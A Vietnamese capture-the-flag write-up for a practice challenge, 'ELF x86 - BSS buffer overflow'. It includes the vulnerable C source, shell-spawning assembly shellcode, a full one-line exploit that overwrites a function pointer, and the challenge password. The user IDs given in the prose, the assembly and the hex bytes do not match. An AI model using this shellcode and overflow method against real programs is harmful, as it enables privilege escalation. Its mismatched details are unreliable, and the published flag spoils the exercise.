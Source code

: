 # ELF x86 - BSS buffer overflow

```c
#include <stdio.h>
#include <stdlib.h>
 
char username[512] = {1};
void (*_atexit)(int) =  exit;
 
void cp_username(char *name, const char *arg)
{
  while((*(name++) = *(arg++)));
  *name = 0;
}
 
int main(int argc, char **argv)
{
  if(argc != 2)
    {
      printf("[-] Usage : %s <username>\n", argv[0]);
      exit(0);
    }
   
  cp_username(username, argv[1]);
  printf("[+] Running program with username : %s\n", username);
   
  _atexit(0);
  return 0;
}

```

Đây là một bài bss overflow, nhưng nó chả có ý nghĩa gì cả. Biến `_atexit` chứa địa chỉ một hàm và được gọi lúc sau tương tự với ta ghi đè return address. Ta dùng lỗi buffer overflow ở `cp_username` để ghi đè lên biến `_atexit` và nhảy về vùng shellcode của ta ghi ở mảng `username`.

Dùng gdb tìm địa chỉ của biến `username` và `_atexit`, `_atexit = username + 512`

![](images/2.png)

Viết shellcode gọi `setreuid(1210, 1110)` và `system(“/bin/sh”, 0, 0)`

```assembly
section .text
	global _start:

_start:
	xor edx, edx
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov bx, 1207
	mov cx, 1107
	mov al, 0x46
	int 0x80	

	xor eax, eax
	xor ecx, ecx
	push eax
	push 0x68732f2f
	push 0x6e69622f
	push esp
	pop ebx
	mov al, 0xb
	int 0x80
```

Exploit:

```console
./ch7 $(python2 -c "print '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x46\x66\xbb\xb7\x04\x66\xb9\xb7\x04\xcd\x80\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\xb0\x0b\xcd\x80' + 'A' * (512 - 39) + '\x40\xa0\x04\x08'")
```

![](images/4.png)

pass là: `aod8r2f!q:;oe`

